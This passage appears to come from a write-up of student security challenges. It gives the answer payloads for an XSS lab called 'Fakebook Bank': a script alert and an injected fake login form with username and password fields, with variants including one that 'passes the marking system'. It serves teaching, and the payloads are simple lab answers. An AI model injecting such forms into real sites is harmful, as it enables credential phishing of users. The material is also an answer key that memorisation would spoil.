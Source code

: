 To solve this challenge, students have to use Burp-Suite to intercept
the submission of the form and change the values such that they are
invalid data.

**Fakebook Bank (XSS)**

This challenge was extracted from the old version of Mimosa and it is a
simple challenge for students to learn more about XSS. In this
challenge, whatever that is typed into the payee name input box will be
displayed back to the client and the student is supposed to exploit this
to display an alert stating that it is required to login and
subsequently, display a login form on the page.

[Answer:]{.underline}

\<script\>alert(\"Please login\");\</script\>

\<form\>

Username\<input type=text\>

Password\<input type=password\>

\<button onclick=\"alert(\'Login in Successful!\');\"\>Login\</button\>

\</form\>

Another payload:

\<form\>

Username\<input type=text\>

Password\<input type=password\>

\<button onclick=\"alert(\'Login in Successful!\');\"\>Login\</button\>

\</form\>

Pass the marking system

\<form\>

Username\<input type=text\>

Password\<input type=password\>

\</form\>

## 

## MST Feedback![](media/image14.jpg){width="5.578125546806649in" height="8.221529965004374in"}![](media/image15.jpg){width="5.723958880139983in" height="8.934512248468941in"}![](media/image16.jpg){width="6.5in" height="9.177083333333334in"}![](media/image17.jpg){width="5.46875in" height="8.416666666666666in"}![](media/image18.jpg){width="6.5in" height="8.770833333333334in"}

## ![](media/image19.png){width="3.9218755468066493in" height="4.535603674540682in"}
